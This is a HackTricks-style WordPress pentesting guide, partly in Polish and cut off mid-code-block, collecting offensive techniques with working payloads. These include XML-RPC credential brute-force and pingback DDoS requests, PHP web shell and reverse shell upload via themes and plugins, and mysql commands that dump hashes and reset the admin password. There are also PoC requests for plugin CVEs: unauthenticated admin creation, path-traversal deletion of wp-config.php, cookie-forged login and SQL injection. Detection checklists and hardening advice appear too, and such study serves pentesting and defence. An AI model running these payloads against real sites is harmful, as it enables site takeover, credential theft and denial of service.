

# Wordpress

{{#include ../../banners/hacktricks-training.md}}

## Podstawowe informacje

- **Uploaded** files go to: `http://10.10.10.10/wp-content/uploads/2018/08/a.txt`
- **Themes files can be found in /wp-content/themes/,** so if you change some php of the theme to get RCE you probably will use that path. For example: Using **theme twentytwelve** you can **access** the **404.php** file in: [**/wp-content/themes/twentytwelve/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

- **Another useful url could be:** [**/wp-content/themes/default/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

- In **wp-config.php** you can find the root password of the database.
- Default login paths to check: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

### **Main WordPress Files**

- `index.php`
- `license.txt` contains useful information such as the version WordPress installed.
- `wp-activate.php` is used for the email activation process when setting up a new WordPress site.
- Login folders (may be renamed to hide it):
- `/wp-admin/login.php`
- `/wp-admin/wp-login.php`
- `/login.php`
- `/wp-login.php`
- `xmlrpc.php` is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism. This type of communication has been replaced by the WordPress [REST API](https://developer.wordpress.org/rest-api/reference).
- The `wp-content` folder is the main directory where plugins and themes are stored.
- `wp-content/uploads/` Is the directory where any files uploaded to the platform are stored.
- `wp-includes/` This is the directory where core files are stored, such as certificates, fonts, JavaScript files, and widgets.
- `wp-sitemap.xml` In Wordpress versions 5.5 and greater, Worpress generates a sitemap XML file with all public posts and publicly queryable post types and taxonomies.

**Post exploitation**

- The `wp-config.php` file contains information required by WordPress to connect to the database such as the database name, database host, username and password, authentication keys and salts, and the database table prefix. This configuration file can also be used to activate DEBUG mode, which can useful in troubleshooting.

### Users Permissions

- **Administrator**
- **Editor**: Publish and manages his and others posts
- **Author**: Publish and manage his own posts
- **Contributor**: Write and manage his posts but cannot publish them
- **Subscriber**: Browser posts and edit their profile

## **Passive Enumeration**

### **Get WordPress version**

Check if you can find the files `/license.txt` or `/readme.html`

Inside the **source code** of the page (example from [https://wordpress.org/support/article/pages/](https://wordpress.org/support/article/pages/)):

- grep
```bash
curl https://victim.com/ | grep 'content="WordPress'
```
- `meta name`

.png>)

- Pliki linków CSS

.png>)

- Pliki JavaScript

.png>)

### Pobierz wtyczki
```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```
### Pobieranie motywów
```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep -E 'wp-content/themes' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```
### Ogólne wyodrębnianie wersji
```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep http | grep -E '?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```
## Aktywna enumeracja

### Wtyczki i motywy

Prawdopodobnie nie będziesz w stanie znaleźć wszystkich dostępnych wtyczek i motywów. Aby odkryć je wszystkie, będziesz musiał **aktywnie przeprowadzić Brute Force listy wtyczek i motywów** (miejmy nadzieję, że istnieją zautomatyzowane narzędzia zawierające te listy).

### Użytkownicy

- **ID Brute:** Uzyskujesz prawidłowych użytkowników z serwisu WordPress przez Brute Forcing ID użytkowników:
```bash
curl -s -I -X GET http://blog.example.com/?author=1
```
Jeśli odpowiedzi to **200** lub **30X**, oznacza to, że id jest **prawidłowe**. Jeśli odpowiedź to **400**, to id jest **nieprawidłowe**.

- **wp-json:** Możesz też spróbować uzyskać informacje o użytkownikach, zapytując:
```bash
curl http://blog.example.com/wp-json/wp/v2/users
```
Kolejny endpoint `/wp-json/`, który może ujawnić pewne informacje o użytkownikach, to:
```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```
Zauważ, że ten endpoint ujawnia tylko użytkowników, którzy opublikowali post. **Dostarczone zostaną tylko informacje o użytkownikach, którzy mają tę funkcję włączoną**.

Również zwróć uwagę, że **/wp-json/wp/v2/pages** może leak IP addresses.

- **Login username enumeration**: Podczas logowania w **`/wp-login.php`** komunikat jest inny i wskazuje, czy nazwa użytkownika istnieje, czy nie.

### XML-RPC

Jeśli `xml-rpc.php` jest aktywny możesz wykonać credentials brute-force lub użyć go do uruchomienia DoS attacks na inne zasoby. (You can automate this process[ using this](https://github.com/relarizky/wpxploit) for example).

Aby sprawdzić, czy jest aktywny, spróbuj uzyskać dostęp do _**/xmlrpc.php**_ i wyślij to żądanie:

**Sprawdź**
```html
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


**Credentials Bruteforce**

**`wp.getUserBlogs`**, **`wp.getCategories`** lub **`metaWeblog.getUsersBlogs`** to przykładowe metody, które można użyć do brute-force credentials. Jeśli znajdziesz którąkolwiek z nich, możesz wysłać coś takiego:
```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
Komunikat _"Nieprawidłowa nazwa użytkownika lub hasło"_ w odpowiedzi z kodem 200 powinien pojawić się, jeśli dane uwierzytelniające są nieprawidłowe.

 (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

.png>)

Używając prawidłowych danych uwierzytelniających możesz przesłać plik. W odpowiedzi pojawi się ścieżka ([https://gist.github.com/georgestephanis/5681982](https://gist.github.com/georgestephanis/5681982))
```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
<param><value><string>1</string></value></param>
<param><value><string>username</string></value></param>
<param><value><string>password</string></value></param>
<param>
<value>
<struct>
<member>
<name>name</name>
<value><string>filename.jpg</string></value>
</member>
<member>
<name>type</name>
<value><string>mime/type</string></value>
</member>
<member>
<name>bits</name>
<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
</member>
</struct>
</value>
</param>
</params>
</methodCall>
```
Also there is a **faster way** to brute-force credentials using **`system.multicall`** as you can try several credentials on the same request:

<figure><figcaption></figcaption></figure>

**Bypass 2FA**

This method is meant for programs and not for humans, and old, therefore it doesn't support 2FA. So, if you have valid creds but the main entrance is protected by 2FA, **you might be able to abuse xmlrpc.php to login with those creds bypassing 2FA**. Note that you won't be able to perform all the actions you can do through the console, but you might still be able to get to RCE as Ippsec explains it in [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS or port scanning**

If you can find the method _**pingback.ping**_ inside the list you can make the Wordpress send an arbitrary request to any host/port.\
This can be used to ask **thousands** of Wordpress **sites** to **access** one **location** (so a **DDoS** is caused in that location) or you can use it to make **Wordpress** lo **scan** some internal **network** (you can indicate any port).
```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```


Jeśli otrzymasz **faultCode** z wartością **większą** niż **0** (17), oznacza to, że port jest otwarty.

Zobacz użycie **`system.multicall`** w poprzedniej sekcji, aby dowiedzieć się, jak nadużyć tej metody, aby wywołać DDoS.

**DDoS**
```html
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://target/</string></value></param>
<param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
</params>
</methodCall>
```
.png>)

### wp-cron.php DoS

Ten plik zwykle znajduje się w katalogu root strony Wordpress: **`/wp-cron.php`**\
Gdy ten plik jest **wywoływany**, wykonywane jest "**ciężkie**" zapytanie MySQL, więc może być wykorzystany przez **atakujących** do **spowodowania** **DoS**.\
Domyślnie `wp-cron.php` jest wywoływany przy każdym ładowaniu strony (za każdym razem, gdy klient żąda dowolnej strony Wordpress), co na serwisach o dużym ruchu może powodować problemy (DoS).

Zaleca się wyłączyć Wp-Cron i utworzyć rzeczywisty cronjob na hoście, który będzie wykonywał potrzebne działania w regularnych odstępach (bez powodowania problemów).

### /wp-json/oembed/1.0/proxy - SSRF

Spróbuj uzyskać dostęp do _https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net_ i strona Wordpress może wykonać żądanie do Ciebie.

This is the response when it doesn't work:

.png>)

## SSRF


{{#ref}}
https://github.com/t0gu/quickpress/blob/master/core/requests.go
{{#endref}}

To narzędzie sprawdza, czy istnieje **methodName: pingback.ping** oraz ścieżka **/wp-json/oembed/1.0/proxy**, i jeśli tak, próbuje je wykorzystać.

## Narzędzia automatyczne
```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"
```
## Uzyskanie dostępu przez nadpisanie jednego bitu

To bardziej ciekawostka niż rzeczywisty atak. W CTF [https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man](https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man) można było zmienić 1 bit w dowolnym pliku wordpress. Dzięki temu można było zmienić pozycję `5389` w pliku `/var/www/html/wp-includes/user.php`, aby zamienić operację NOT (`!`) na NOP.
```php
if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
return new WP_Error(
```
## **Panel RCE**

**Modyfikacja pliku php w używanym motywie (admin credentials needed)**

Wygląd → Edytor motywu → Szablon 404 (po prawej)

Zmień zawartość na php shell:

.png>)

Wyszukaj w internecie, jak uzyskać dostęp do zaktualizowanej strony. W tym przypadku musisz wejść tutaj: [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

### MSF

Możesz użyć:
```bash
use exploit/unix/webapp/wp_admin_shell_upload
```
to get a session.

## Plugin RCE

### PHP plugin

Może być możliwe wgranie plików .php jako plugin.\
Utwórz swój php backdoor używając na przykład:

.png>)

Następnie dodaj nowy plugin:

.png>)

Wgraj plugin i naciśnij Install Now:

.png>)

Kliknij na Procced:

.png>)

Prawdopodobnie na pierwszy rzut oka nic się nie stanie, ale jeśli przejdziesz do Media, zobaczysz swój shell wgrany:

.png>)

Otwórz go, a zobaczysz URL do wykonania reverse shell:

.png>)

### Uploading and activating malicious plugin

Ta metoda polega na instalacji złośliwego pluginu znanego jako podatny, który można wykorzystać do uzyskania web shell. Proces ten wykonywany jest przez dashboard WordPressa w następujący sposób:

1. **Plugin Acquisition**: Plugin jest pobierany ze źródła takiego jak Exploit DB jak [**here**](https://www.exploit-db.com/exploits/36374).
2. **Plugin Installation**:
- Przejdź do dashboardu WordPress, następnie do `Dashboard > Plugins > Upload Plugin`.
- Wgraj plik zip pobranego pluginu.
3. **Plugin Activation**: Po pomyślnym zainstalowaniu plugin musi zostać aktywowany przez dashboard.
4. **Exploitation**:
- Po zainstalowaniu i aktywowaniu pluginu "reflex-gallery" można go wykorzystać, gdyż jest znany jako podatny.
- Metasploit framework zawiera exploit dla tej podatności. Ładując odpowiedni moduł i wykonując konkretne polecenia można uzyskać sesję meterpreter, dającą nieautoryzowany dostęp do strony.
- Należy zauważyć, że jest to tylko jedna z wielu metod wykorzystania strony WordPress.

Treść zawiera ilustracje przedstawiające kroki w dashboardzie WordPress dotyczące instalacji i aktywacji pluginu. Należy jednak pamiętać, że wykorzystywanie podatności w ten sposób jest nielegalne i nieetyczne bez odpowiedniej autoryzacji. Informacje te powinny być wykorzystywane odpowiedzialnie i tylko w kontekście prawnym, takim jak penetration testing z wyraźnym pozwoleniem.

**For more detailed steps check:** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)

## From XSS to RCE

- [**WPXStrike**](https://github.com/nowak0x01/WPXStrike): _**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress. For more info check [**this post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). It provides **support for Wordpress Versions 6.X.X, 5.X.X and 4.X.X. and allows to:**
- _**Privilege Escalation:**_ Tworzy użytkownika w WordPress.
- _**(RCE) Custom Plugin (backdoor) Upload:**_ Wgraj swój custom plugin (backdoor) do WordPress.
- _**(RCE) Built-In Plugin Edit:**_ Edytuje wbudowane pluginy w WordPress.
- _**(RCE) Built-In Theme Edit:**_ Edytuje wbudowane motywy w WordPress.
- _**(Custom) Custom Exploits:**_ Własne exploity dla third-party WordPress Plugins/Themes.

## Post Exploitation

Wyodrębnij nazwy użytkowników i hasła:
```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```
Zmień hasło administratora:
```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```
## Pentest wtyczek Wordpress

### Powierzchnia ataku

Znajomość tego, w jaki sposób wtyczka Wordpress może udostępniać funkcjonalność, jest kluczowa do znajdowania podatności w tej funkcjonalności. Możesz zobaczyć, jak wtyczka może wystawiać funkcjonalność w poniższych punktach oraz przykłady podatnych wtyczek w [**this blog post**](https://nowotarski.info/wordpress-nonce-authorization/).

- **`wp_ajax`**

Jednym ze sposobów, w jaki wtyczka może udostępniać funkcje użytkownikom, są obsługiwacze AJAX. Mogą one zawierać błędy w logice, autoryzacji lub uwierzytelnianiu. Co więcej, dość często te funkcje będą opierać zarówno uwierzytelnianie, jak i autoryzację na istnieniu Wordpress nonce, który **każdy uwierzytelniony użytkownik w instancji Wordpress może posiadać** (niezależnie od roli).

Oto funkcje, które mogą być użyte do wystawienia funkcji w wtyczce:
```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```
**Użycie `nopriv` sprawia, że endpoint jest dostępny dla wszystkich użytkowników (nawet niezalogowanych).**

> [!CAUTION]
> Co więcej, jeśli funkcja sprawdza autoryzację użytkownika tylko za pomocą funkcji `wp_verify_nonce`, to funkcja ta jedynie weryfikuje, czy użytkownik jest zalogowany — zwykle nie sprawdza roli użytkownika. W efekcie użytkownicy o niskich uprawnieniach mogą mieć dostęp do akcji wymagających wysokich uprawnień.

- **REST API**

Możliwe jest także wystawienie funkcji z wordpress poprzez zarejestrowanie REST API za pomocą funkcji `register_rest_route`:
```php
register_rest_route(
$this->namespace, '/get/', array(
'methods' => WP_REST_Server::READABLE,
'callback' => array($this, 'getData'),
'permission_callback' => '__return_true'
)
);
```
The `permission_callback` jest callbackiem do funkcji, która sprawdza, czy dany użytkownik jest autoryzowany do wywołania metody API.

**If the built-in `__return_true` function is used, it'll simply skip user permissions check.**

- **Direct access to the php file**

Oczywiście, Wordpress używa PHP i pliki wewnątrz wtyczek są bezpośrednio dostępne z sieci. Zatem, jeśli wtyczka ujawnia jakąkolwiek podatną funkcjonalność, która jest wywoływana jedynie przez dostęp do pliku, będzie ona możliwa do wykorzystania przez dowolnego użytkownika.

### Trusted-header REST impersonation (WooCommerce Payments ≤ 5.6.1)

Niektóre wtyczki implementują skróty “trusted header” dla integracji wewnętrznych lub reverse proxies i następnie używają tego nagłówka do ustawienia kontekstu bieżącego użytkownika dla żądań REST. Jeśli nagłówek nie jest kryptograficznie powiązany z żądaniem przez komponent upstream, atakujący może go sfałszować i trafić na uprzywilejowane REST routes jako administrator.

- Impact: eskalacja uprawnień bez uwierzytelnienia do administratora poprzez utworzenie nowego administratora za pomocą core users REST route.
- Example header: `X-Wcpay-Platform-Checkout-User: 1` (wymusza ID użytkownika 1, zazwyczaj pierwsze konto administratora).
- Exploited route: `POST /wp-json/wp/v2/users` with an elevated role array.

PoC
```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```
Dlaczego to działa

- Wtyczka mapuje kontrolowany przez klienta nagłówek na stan uwierzytelnienia i pomija sprawdzenia uprawnień.
- WordPress core oczekuje uprawnienia `create_users` dla tej trasy; exploit wtyczki omija to, ustawiając bezpośrednio kontekst bieżącego użytkownika na podstawie nagłówka.

Oczekiwane wskaźniki powodzenia

- HTTP 201 z ciałem JSON opisującym utworzonego użytkownika.
- Nowy użytkownik administratora widoczny w `wp-admin/users.php`.

Lista kontrolna wykrywania

- Grepuj pod kątem `getallheaders()`, `$_SERVER['HTTP_...']` lub vendor SDKs, które odczytują niestandardowe nagłówki w celu ustawienia kontekstu użytkownika (np. `wp_set_current_user()`, `wp_set_auth_cookie()`).
- Przejrzyj rejestracje REST pod kątem uprzywilejowanych callbacków, które nie mają solidnych sprawdzeń `permission_callback` i zamiast tego polegają na nagłówkach żądania.
- Szukaj użyć funkcji zarządzania użytkownikami core (`wp_insert_user`, `wp_create_user`) wewnątrz handlerów REST, które są zabezpieczone jedynie przez wartości nagłówków.

### Nieuwierzytelnione dowolne usuwanie plików przez wp_ajax_nopriv (Litho Theme <= 3.0)

Motywy i wtyczki WordPress często udostępniają handlery AJAX przez hooki `wp_ajax_` i `wp_ajax_nopriv_`. Gdy użyta jest wariant **_nopriv_**, **callback staje się dostępny dla niezalogowanych odwiedzających**, więc każda wrażliwa akcja musi dodatkowo zaimplementować:

1. A **capability check** (e.g. `current_user_can()` or at least `is_user_logged_in()`), and
2. A **CSRF nonce** validated with `check_ajax_referer()` / `wp_verify_nonce()`, and
3. **Strict input sanitisation / validation**.

Motyw Litho multipurpose (< 3.1) pominął te 3 kontrole w funkcji *Remove Font Family* i finalnie dostarczył następujący kod (uproszczony):
```php
function litho_remove_font_family_action_data() {
if ( empty( $_POST['fontfamily'] ) ) {
return;
}
$fontfamily = str_replace( ' ', '-', $_POST['fontfamily'] );
$upload_dir = wp_upload_dir();
$srcdir  = untrailingslashit( wp_normalize_path( $upload_dir['basedir'] ) ) . '/litho-fonts/' . $fontfamily;
$filesystem = Litho_filesystem::init_filesystem();

if ( file_exists( $srcdir ) ) {
$filesystem->delete( $srcdir, FS_CHMOD_DIR );
}
die();
}
add_action( 'wp_ajax_litho_remove_font_family_action_data',        'litho_remove_font_family_action_data' );
add_action( 'wp_ajax_nopriv_litho_remove_font_family_action_data', 'litho_remove_font_family_action_data' );
```
Problemy wprowadzone przez ten fragment:

* **Dostęp bez uwierzytelnienia** – hook `wp_ajax_nopriv_` jest zarejestrowany.
* **Brak sprawdzenia nonce / uprawnień** – każdy odwiedzający może wywołać punkt końcowy.
* **Brak sanitizacji ścieżki** – kontrolowany przez użytkownika `fontfamily` ciąg jest konkatenowany do ścieżki systemu plików bez filtrowania, co pozwala na klasyczne `../../` traversal.

#### Eksploatacja

Atakujący może usunąć dowolny plik lub katalog **poniżej katalogu bazowego uploads** (zwykle `<wp-root>/wp-content/uploads/`) wysyłając jedno żądanie HTTP POST:
```bash
curl -X POST https://victim.com/wp-admin/admin-ajax.php \
-d 'action=litho_remove_font_family_action_data' \
-d 'fontfamily=../../../../wp-config.php'
```
Because `wp-config.php` lives outside *uploads*, four `../` sequences are enough on a default installation.  Deleting `wp-config.php` forces WordPress into the *installation wizard* on the next visit, enabling a full site take-over (the attacker merely supplies a new DB configuration and creates an admin user).

Other impactful targets include plugin/theme `.php` files (to break security plugins) or `.htaccess` rules.

#### Lista kontrolna wykrywania

* Każdy callback `add_action( 'wp_ajax_nopriv_...')`, który wywołuje pomocnicze funkcje systemu plików (`copy()`, `unlink()`, `$wp_filesystem->delete()`, itd.).
* Konkatenacja niesanitizowanych danych wejściowych od użytkownika w ścieżki (szukaj `$_POST`, `$_GET`, `$_REQUEST`).
* Brak `check_ajax_referer()` oraz `current_user_can()`/`is_user_logged_in()`.

---

### Privilege escalation przez przywracanie przestarzałych ról i brak autoryzacji (ASE "View Admin as Role")

Wiele wtyczek implementuje funkcję "view as role" lub tymczasowego przełączania ról, zapisując oryginalne role w user meta, aby można je było później przywrócić. Jeśli ścieżka przywracania opiera się tylko na parametrach żądania (np. `$_REQUEST['reset-for']`) i liście utrzymywanej przez wtyczkę bez sprawdzania uprawnień oraz ważnego nonce, staje się to vertical privilege escalation.

Przykład z rzeczywistego świata znaleziono w wtyczce Admin and Site Enhancements (ASE) (≤ 7.6.2.1). Gałąź resetująca przywracała role na podstawie `reset-for=<username>` jeśli nazwa użytkownika pojawiała się w wewnętrznej tablicy `$options['viewing_admin_as_role_are']`, ale nie wykonywała ani sprawdzenia `current_user_can()` ani weryfikacji nonce przed usunięciem bieżących ról i ponownym dodaniem zapisanych ról z user meta `_asenha_view_admin_as_original_roles`:
```php
// Simplified vulnerable pattern
if ( isset( $_REQUEST['reset-for'] ) ) {
$reset_for_username = sanitize_text_field( $_REQUEST['reset-for'] );
$usernames = get_option( ASENHA_SLUG_U, [] )['viewing_admin_as_role_are'] ?? [];

if ( in_array( $reset_for_username, $usernames, true ) ) {
$u = get_user_by( 'login', $reset_for_username );
foreach ( $u->roles as $role ) { $u->remove_role( $role ); }
$orig = (array) get_user_meta( $u->ID, '_asenha_view_admin_as_original_roles', true );
foreach ( $orig as $r ) { $u->add_role( $r ); }
}
}
```
Dlaczego jest to eksploatowalne

- Ufając `$_REQUEST['reset-for']` i plugin option bez autoryzacji po stronie serwera.
- Jeśli użytkownik wcześniej miał wyższe uprawnienia zapisane w `_asenha_view_admin_as_original_roles` i został zdegradowany, może je przywrócić, korzystając ze ścieżki resetowania.
- W niektórych wdrożeniach każdy uwierzytelniony użytkownik mógłby wywołać reset dla innej nazwy użytkownika wciąż obecnej w `viewing_admin_as_role_are` (błędna autoryzacja).

Eksploatacja (przykład)
```bash
# While logged in as the downgraded user (or any auth user able to trigger the code path),
# hit any route that executes the role-switcher logic and include the reset parameter.
# The plugin uses $_REQUEST, so GET or POST works. The exact route depends on the plugin hooks.
curl -s -k -b 'wordpress_logged_in=...' \
'https://victim.example/wp-admin/?reset-for=<your_username>'
```
W podatnych buildach usuwa to bieżące role i ponownie dodaje zapisane oryginalne role (np. `administrator`), effectively escalating privileges.

Detection checklist

- Szukaj funkcji przełączania ról, które zapisują “original roles” w user meta (np. `_asenha_view_admin_as_original_roles`).
- Zidentyfikuj ścieżki resetowania/przywracania, które:
- Odczytują nazwy użytkowników z `$_REQUEST` / `$_GET` / `$_POST`.
- Modyfikują role za pomocą `add_role()` / `remove_role()` bez `current_user_can()` oraz `wp_verify_nonce()` / `check_admin_referer()`.
- Autoryzują na podstawie tablicy opcji wtyczki (np. `viewing_admin_as_role_are`) zamiast uprawnień aktora.

---

### Unauthenticated privilege escalation via cookie‑trusted user switching on public init (Service Finder “sf-booking”)

Some plugins wire user-switching helpers to the public `init` hook and derive identity from a client-controlled cookie. If the code calls `wp_set_auth_cookie()` without verifying authentication, capability and a valid nonce, any unauthenticated visitor can force login as an arbitrary user ID.

Typical vulnerable pattern (simplified from Service Finder Bookings ≤ 6.1):
```php
function service_finder_submit_user_form(){
if ( isset($_GET['switch_user']) && is_numeric($_GET['switch_user']) ) {
$user_id = intval( sanitize_text_field($_GET['switch_user']) );
service_finder_switch_user($user_id);
}
if ( isset($_GET['switch_back']) ) {
service_finder_switch_back();
}
}
add_action('init', 'service_finder_submit_user_form');

function service_finder_switch_back() {
if ( isset($_COOKIE['original_user_id']) ) {
$uid = intval($_COOKIE['original_user_id']);
if ( get_userdata($uid) ) {
wp_set_current_user($uid);
wp_set_auth_cookie($uid);  // 🔥 sets auth for attacker-chosen UID
do_action('wp_login', get_userdata($uid)->user_login, get_userdata($uid));
setcookie('original_user_id', '', time() - 3600, '/');
wp_redirect( admin_url('admin.php?page=candidates') );
exit;
}
wp_die('Original user not found.');
}
wp_die('No original user found to switch back to.');
}
```
Dlaczego to jest podatne na wykorzystanie

- Publiczny hook `init` sprawia, że handler jest dostępny dla niezalogowanych użytkowników (brak zabezpieczenia `is_user_logged_in()`).
- Tożsamość jest wyprowadzana z modyfikowalnego przez klienta ciasteczka (`original_user_id`).
- Bezpośrednie wywołanie `wp_set_auth_cookie($uid)` loguje żądającego jako tego użytkownika bez capability/nonce checks.

Eksploatacja (bez uwierzytelnienia)
```http
GET /?switch_back=1 HTTP/1.1
Host: victim.example
Cookie: original_user_id=1
User-Agent: PoC
Connection: close
```
---

### WAF considerations for WordPress/plugin CVEs

Ogólne WAF-y edge/server są dostrojone do rozpoznawania szerokich wzorców (SQLi, XSS, LFI). Wiele wysokiego wpływu luk w WordPress/pluginach to błędy logiki specyficzne dla aplikacji lub problemy z auth, które wyglądają jak nieszkodliwy ruch, jeśli silnik nie rozumie tras WordPress i semantyki pluginów.

Offensive notes

- Celuj w plugin-specific endpoints za pomocą clean payloads: `admin-ajax.php?action=...`, `wp-json/<namespace>/<route>`, custom file handlers, shortcodes.
- Najpierw testuj ścieżki bez uwierzytelniania (AJAX `nopriv`, REST z permissive `permission_callback`, public shortcodes). Domyślne payloads często działają bez obfuskacji.
- Typowe wysokiego wpływu przypadki: privilege escalation (broken access control), arbitrary file upload/download, LFI, open redirect.

Defensive notes

- Nie polegaj na ogólnych sygnaturach WAF, żeby chronić plugin CVE. Wdroż virtual patches na warstwie aplikacji specyficzne dla podatności lub aktualizuj szybko.
- Preferuj positive-security checks w kodzie (capabilities, nonces, ścisła walidacja wejścia) zamiast negatywnych filtrów regex.

## WordPress Protection

### Regular Updates

Upewnij się, że WordPress, plugins i motywy są aktualne. Potwierdź także, że automatyczne aktualizacje są włączone w wp-config.php:
```bash
define( 'WP_AUTO_UPDATE_CORE', true );
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```
Ponadto, **instaluj tylko zaufane wtyczki i motywy WordPress**.

### Wtyczki bezpieczeństwa

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Inne zalecenia**

- Usuń domyślnego użytkownika **admin**
- Używaj **silnych haseł** i **2FA**
- Okresowo **przeglądaj** **uprawnienia** użytkowników
- **Ogranicz liczbę prób logowania** aby zapobiec atakom Brute Force
- Zmień nazwę pliku **`wp-admin.php`** i zezwalaj na dostęp tylko wewnętrznie lub z określonych adresów IP.


### SQL Injection bez uwierzytelnienia z powodu niewystarczającej walidacji (WP Job Portal <= 2.3.2)

Wtyczka rekrutacyjna WP Job Portal udostępniała zadanie **savecategory**, które ostatecznie wykonuje następujący podatny kod w `modules/category/model.php::validateFormData()`:
```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
$inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
. wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```
Problemy wprowadzone przez ten fragment:

1. **Nieodfiltrowane dane od użytkownika** – `parentid` pochodzi bezpośrednio z żądania HTTP.
2. **Sklejanie stringów w klauzuli WHERE** – brak `is_numeric()` / `esc_sql()` / prepared statement.
3. **Brak autoryzacji** – mimo że akcja wykonywana jest przez `admin-post.php`, jedyną kontrolą jest a **CSRF nonce** (`wp_verify_nonce()`), który każdy odwiedzający może pobrać ze strony publicznej osadzającej shortcode `[wpjobportal_my_resumes]`.

#### Wykorzystanie

1. Pobierz świeży nonce:
```bash
curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
```
2. Wstrzyknij dowolne SQL, wykorzystując `parentid`:
```bash
